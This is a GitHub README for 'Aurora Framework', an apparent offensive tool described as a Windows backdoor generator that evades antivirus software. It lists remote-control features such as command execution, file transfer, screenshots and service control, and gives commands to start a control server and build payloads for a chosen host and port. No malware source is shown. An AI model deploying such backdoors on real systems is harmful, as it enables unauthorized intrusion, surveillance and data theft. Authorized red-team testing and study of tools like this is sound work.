 # Aurora Framework

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
This tool is a backdoor generator for Windows systems that uses sockets to establish a connection and is highly capable of bypassing antivirus software.It has a control server and a variety of payloads, and comes with a number of useful features.

## Features
- Root shell `Administrator permission required`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine.
- Upload/Download any type of files.
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot
- Download files

## How to install
```
git clone https://github.com/hxrshdeepsingh/Aurora-Framework
```
```
cd Aurora-Framework
```
```
pip install -r requirements.txt
```
```
python aurora.py --help
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
